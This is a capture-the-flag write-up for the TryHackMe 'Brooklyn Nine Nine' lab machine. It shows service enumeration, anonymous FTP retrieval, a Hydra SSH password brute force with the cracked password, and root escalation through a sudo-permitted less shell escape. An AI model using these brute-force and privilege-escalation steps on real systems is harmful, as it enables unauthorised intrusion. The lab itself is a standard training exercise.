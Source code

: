 # Brooklyn Nine Nine (THM)

- https://tryhackme.com/room/brooklynninenine
- March 4, 2023
- easy

---

## Enumeration

- Nmap Initial

1. 21/ftp vsftpd 3.0.3
   - anonymous FTP login allowed
   - -rw-r--r-- 1 0 0 119 May 17 2020 note_to_jake.txt
2. 22/tcp open ssh syn-ack OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
3. 80/http Apache/2.4.29

### ftp

- get one text file

```
From Amy,

Jake please change your password. It is too weak and holt will be mad if someone hacks into the nine nine
```

### http

- http://$IP
- found an image and in view page source

```
<!-- Have you ever heard of steganography? -->
```

- directory brute forcing with ffuf
- nothing special found

- get the image

### ssh

- from Amy text, brute force jake's ssh password

```
$ hydra -l jake -P /usr/share/wordlists/rockyou.txt $IP ssh -t 4
login: jake   password: 987654321
```

# Get User Access

```sh
jake@brookly_nine_nine:~$ sudo -l
Matching Defaults entries for jake on brookly_nine_nine:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User jake may run the following commands on brookly_nine_nine:
    (ALL) NOPASSWD: /usr/bin/less

jake@brookly_nine_nine:~$ cat /home/holt/user.txt

# read the /root/root.text with less command
jake@brookly_nine_nine:~$ sudo less /root/root.txt

# OR
jake@brookly_nine_nine:~$ sudo less /etc/profile
!/bin/bash
root@brookly_nine_nine:~# whoami
root
```

---
